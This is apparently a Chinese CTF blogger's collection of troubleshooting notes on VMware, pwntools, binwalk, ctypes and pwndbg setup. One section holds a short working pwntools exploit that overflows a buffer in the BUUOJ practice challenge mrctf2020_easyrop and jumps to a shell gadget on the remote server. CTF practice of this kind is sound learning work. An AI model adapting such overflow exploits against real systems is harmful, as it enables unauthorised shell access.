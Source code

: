 ```yaml
---
title: 遇到的奇奇怪怪问题汇总
tags: [ctf-pwn,Others]
date: 2023-12-05 13:58:00
categories: [杂项]
excerpt: 解决或未解决的奇怪问题
---
```


**vmware自带的vmtools安装了也复制不进来**

虚拟机执行命令

```
sudo apt-get install open-vm-tools-desktop
```

如果拖放文件的时候出现了

![](/img/problems/1.jpg)

```
sudo gedit /etc/gdm3/custom.conf
```

将`WaylandEnable=false`注释掉

据说是vmware还没有支持ubutnu22.04的默认桌面Wayland

#### sleep ？

题目：

<https://buuoj.cn/challenges#mrctf2020_easyrop>

本来是很简单的一个溢出

```python
from pwn import *
from time import sleep
#r = process('./mrctf2020_easyrop')
r = remote('node4.buuoj.cn',25663)
system_sh =0x000000000040072A
r.sendline(b'2')
#sleep(1)
r.sendline(b'a'*0x300)
r.sendline(b'7')
#sleep(1)
r.sendline(b'a'* 0x12 + p64(system_sh))
r.interactive()
```

但是不加sleep无法通过

有人说是python同时发送多个字符串时会合并(?)

那什么时候情况下需要在sendline前面加一个sleep

​    [已解决] 打本地不加应该没事，打远程的时候肯定会有一点延迟，假如没有sendafter这一类的发送，就可能会造成后面的也一起发送了，所以每次写exp发送的时候最好用sendafter或者sendlineafter这样的话就不需要再担心sleep(1)了

----------------------------------------------------------------------------------



#### binwalk提取固件时快捷方式指向/dev/null

binwalk提取固件时会有一个warning

```
WARNING: Symlink points outside of the extraction directory: /home/kali/Desktop/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root/htdocs/web/dlcfg.cgi -> /htdocs/cgibin; changing link target to /dev/null for security purposes.
```

用到这个快捷方式时要修改一下



#### sendlineafter的问题

要加上换行符`\n`，否则匹配不上

```
p.sendlineafter(b'Input your Plaintext to be encrypted\n',...)
```



#### python调用c库函数

```python
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)
libc.rand()%6 + 1
```



#### 安装ubuntu18，pwndbg安装不上（setup.sh总有问题）

选择用pwndbg release的安装包，安装之后把`/usr/bin/gdb`给改成`/usr/ bin/pwndbg`的软连接

然后在调用`gdb.attach`时弹不出来新的窗口：

采用tmux解决，安装tmux后，程序开头加上一句话

```python
context.terminal = ["tmux", "splitw", "-h"]
```

然后再命令行先运行sudo tmux，然后运行exp.py，就可以弹出来gdb了。

然后发现无法滚动鼠标，使用`ctrl + shift + b + :`进入命令模式，输入`set -g mouse on`

就可以滚动终端了

